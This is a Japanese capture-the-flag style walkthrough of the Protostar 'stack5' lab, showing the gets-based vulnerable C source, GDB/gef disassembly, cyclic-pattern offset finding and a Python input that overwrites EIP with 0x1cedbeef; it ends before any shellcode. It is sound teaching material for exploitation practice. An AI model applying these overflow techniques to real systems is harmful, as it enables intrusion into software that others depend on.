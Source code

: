 <!-- TITLE: Stack 5 -->
<!-- SUBTITLE: A quick summary of Stack 5 -->

# 問題

## 問題のパス

`/opt/protostar/bin/stack5`

## 問題のソースコード

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

非常にシンプルな仕上がり

# ファイルのコピー(scp)

```sh
(local) $ scp Protostar:/opt/protostar/bin/stack5 .
(local) $ ls | grep stack5
stack5
```

このように`scp`してローカルで基礎解析をしたほうが楽

# GDB解析 その1

## バッファオーバーフローを試す

例によって[`gef`](https://github.com/hugsy/gef/)を使う

```sh
(local) $ which gef
gef: aliased to gdb -q --ix $HOME/gef/gef.py
(local) $ gef ./stack5
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
⋮
Reading symbols from ./stack5...done.
gef➤  disas main
Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret    
End of assembler dump.
```

コードからもわかるとおり、`gets`関数が入力されたバイト数のチェックをしないため、バッファオーバーフローの脆弱性が存在する
breakpointを`gets`呼び出しの直後に貼って、文字列パターンを生成する
このパターンは、のちにオフセットの長さを測るのに用いる

```sh
gef➤  b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  r <<< $(echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab')
⋮
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
⋮
$eip   : 0x61616174 ("taaa"?)
⋮
```

`$eip` (次の命令のアドレスを格納するレジスタ) が明らかに通常ではありえない値に書き換えられていることがわかった

## オフセットの値

次にこの*"taaa"*の文字列が`$eax`からどれほどアドレスが離れているかを調べる

```sh
gef➤  pattern search 0x61616174
[+] Searching '0x61616174'
[+] Found at offset 76 (little-endian search) likely
[+] Found at offset 73 (big-endian search) 
```

このバイナリはリトルエンディアンである

```sh
gef➤  elf-info 
Magic                 : 7f 45 4c 46
Class                 : 0x1 - 32-bit
Endianness            : 0x1 - Little-Endian
Version               : 0x1
OS ABI                : 0x0 - System V
ABI Version           : 0x0
Type                  : 0x2 - Executable
Machine               : 0x3 - x86
Program Header Table  : 0x00000034
Section Header Table  : 0x00004d28
Header Table          : 0x00000034
ELF Version           : 0x1
Header size           : 0 (0x0)
Entry point           : 0x08048310
``` 

よって、オフセットは **76**


# GDB解析 その2
先ほどとは入力文字列を変えて実行してみる
オフセットが **76** なので、

```sh
gef➤  r <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')
Starting program: /home/mkm/Develop/protostar/bin/stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')

Breakpoint 1, main (argc=0x42424242, argv=0x42424242) at stack5/stack5.c:11
⋮
gef➤  telescope $esp l30
0xffffd270│+0x00: 0xffffd280  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $esp
0xffffd274│+0x04: 0x0000002f ("/"?)
0xffffd278│+0x08: 0xf7e05dc8  →  0x00002b76 ("v+"?)
0xffffd27c│+0x0c: 0xf7fd31b0  →  0xf7df9000  →  0x464c457f
0xffffd280│+0x10: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $eax
0xffffd284│+0x14: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd288│+0x18: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd28c│+0x1c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd290│+0x20: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd294│+0x24: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd298│+0x28: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd29c│+0x2c: 0x41414141
0xffffd2a0│+0x30: 0x41414141
0xffffd2a4│+0x34: 0x41414141
0xffffd2a8│+0x38: 0x41414141
0xffffd2ac│+0x3c: 0x41414141
0xffffd2b0│+0x40: 0x41414141
0xffffd2b4│+0x44: 0x41414141
0xffffd2b8│+0x48: 0x41414141
0xffffd2bc│+0x4c: 0x41414141
0xffffd2c0│+0x50: 0x41414141
0xffffd2c4│+0x54: 0x41414141
0xffffd2c8│+0x58: 0x41414141	 ← $ebp
0xffffd2cc│+0x5c: 0x1cedbeef
0xffffd2d0│+0x60: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d4│+0x64: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d8│+0x68: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2dc│+0x6c: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e0│+0x70: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e4│+0x74: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x1cedbeef in ?? ()
⋮
$eip   : 0x1cedbeef
⋮
```

このように、適切なオフセットとパディング(今回は*"A"*)を用いることで、`$eip`を任意の値に書き換えられることがわかった

## どこに書き換えるか？